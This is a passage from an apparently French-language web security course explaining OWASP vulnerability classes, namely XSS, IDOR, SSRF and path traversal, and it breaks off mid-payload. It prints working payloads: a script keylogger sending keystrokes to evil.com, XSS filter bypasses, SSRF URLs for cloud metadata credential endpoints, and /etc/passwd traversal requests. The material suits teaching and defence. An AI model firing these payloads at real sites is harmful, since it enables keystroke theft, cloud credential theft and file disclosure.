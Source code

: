 <!-- XSS — keylogger -->
<script>document.onkeypress=function(e){new Image().src='http://evil.com/?k='+e.key}</script>

<!-- XSS — bypass de filtres -->
<img src=x onerror=alert(1)>
<svg onload=alert(document.domain)>
<body onpageshow=alert(1)>
1.4.3  IDOR — Broken Access Control (OWASP A01)
L'Insecure Direct Object Reference (IDOR) se produit lorsqu'une application expose des références directes à des objets internes (identifiants numériques séquentiels, noms de fichiers, clés de base de données) sans vérifier que l'utilisateur est autorisé à y accéder. C'est la catégorie la plus fréquente en 2021 (94 %
Code : Exemples d'IDOR
-- Accès au profil d'un autre utilisateur
GET /api/users/1337/profile      -> données de l'utilisateur 1337
GET /api/users/1338/profile      -> données d'un autre utilisateur (IDOR)

-- Accès aux factures d'un autre compte
GET /invoices/download?id=1001   -> votre facture
GET /invoices/download?id=1002   -> facture d'un autre client (IDOR)
1.4.4  SSRF — Server-Side Request Forgery (OWASP A10)
Le SSRF force le serveur web à effectuer des requêtes HTTP vers des destinations contrôlées par l'attaquant. Dans les environnements cloud modernes (AWS, GCP, Azure), cela permet d'accéder aux services de métadonnées d'instance (169.254.169.254 sur AWS), qui exposent des credentials IAM temporaires donnant accès à l'ensemble de l'infrastructure cloud. La vulnérabilité Capital One (2019, 100 M dossiers clients volés) était une SSRF.
Code : Exemples de payloads SSRF
-- SSRF vers métadonnées AWS
http://169.254.169.254/latest/meta-data/iam/security-credentials/

-- SSRF vers métadonnées GCP
http://metadata.google.internal/computeMetadata/v1/

-- SSRF vers services internes
http://127.0.0.1:8080/admin
http://10.0.0.1/config
http://internal-db:5432/
1.4.5  Path Traversal (OWASP A01)
Le Path Traversal (ou Directory Traversal) exploite une validation insuffisante des chemins de fichiers pour accéder à des fichiers arbitraires sur le serveur, en dehors du répertoire prévu. L'attaquant utilise des séquences '../' pour remonter l'arborescence et accéder à des fichiers système sensibles (/etc/passwd, /etc/shadow, les clés SSH, les fichiers de configuration d'application).
Code : Exemples de payloads Path Traversal
-- Path Traversal basique
GET /download?file=../../etc/passwd
GET /download?file=..%

